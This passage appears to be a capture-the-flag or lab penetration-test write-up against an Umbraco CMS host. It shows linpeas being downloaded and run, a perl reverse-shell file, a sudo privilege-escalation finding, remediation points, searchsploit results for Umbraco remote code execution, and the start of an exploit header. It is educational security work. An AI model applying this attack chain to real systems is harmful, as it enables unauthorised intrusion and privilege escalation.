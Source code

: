      0K .......... .......... .......... .......... .......... 31%  974K 0s
    50K .......... .......... .......... .......... .......... 63% 2.33M 0s
   100K .......... .......... .......... .......... .......... 95% 2.18M 0s
   150K ......                                                100% 2.77M=0.1s

2021-01-05 13:37:57 (1.58 MB/s) - 'linpeas.sh' saved [160486/160486]

$ ls -l
total 164
-rw-r--r-- 1 www-data www-data 160486 Jan  5 12:39 linpeas.sh
-rwxrwxrwx 1 www-data www-data    222 Jan  5 13:11 perl-reverse.pl
$ chmod +x linpeas.sh
$ ./linpeas.sh | tee linpeas.out
```

We find that www-data (the account we are logged in with) has sudo permission to change to scriptmanager user:

![ImgPlaceholder](screenshots/sudo-www-data.png)

**Vulnerability Fix:**

* Close NSF access
* Remove read access to everyone
* Remove Umbraco backup file

**Severity:** Critical

Browsing to the web directory showed a Umbraco CMS webportal login:


http://10.10.10.180/umbraco/#/login

**RCE Umbraco:

```
searchsploit umbraco
--------------
 Exploit Title                                                             
--------------
Umbraco CMS - Remote Command Execution (Metasploit)               | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution        | aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting        | php/webapps/44988.txt
--------------
Shellcodes: No Results
Papers: No Results

```

**Proof of Concept Code Here:**

```
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases